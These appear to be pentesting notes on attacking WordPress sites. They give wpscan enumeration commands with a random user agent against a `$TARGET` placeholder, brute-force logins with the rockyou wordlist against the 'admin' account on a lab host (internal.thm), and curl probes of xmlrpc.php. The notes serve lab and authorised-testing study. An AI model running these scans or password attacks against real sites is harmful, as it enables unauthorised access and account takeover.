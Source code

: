 
- [Scan]             
wpscan --url https://$TARGET --wp-content-dir -e --output wpscan.80 --format cli-no-color
wpscan --url https://$TARGET --random-user-agent --wp-content-dir -e --output wpscan.token --format cli-no-color --api-token $WP_TOKEN
    
- [Brute-force]      
    - wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt
    - wpscan --url http://internal.thm --usernames admin --passwords /usr/share/wordlists/rockyou.txt 
    

--random-user-agent 
--max-threads 1 
--request-timeout 60


curl -X POST https://$TARGET/xmlrpc.php
<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>

curl -X POST https://$TARGET/xmlrpc.php  -H "Content-Type: application/xml"  -H "Accept: application/xml" --data "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" 

# WPScan is a great automatic tool (you can dockerise)
docker pull wpscanteam/wpscan
docker run -it --rm wpscanteam/wpscan --url https://yourblog.com [options]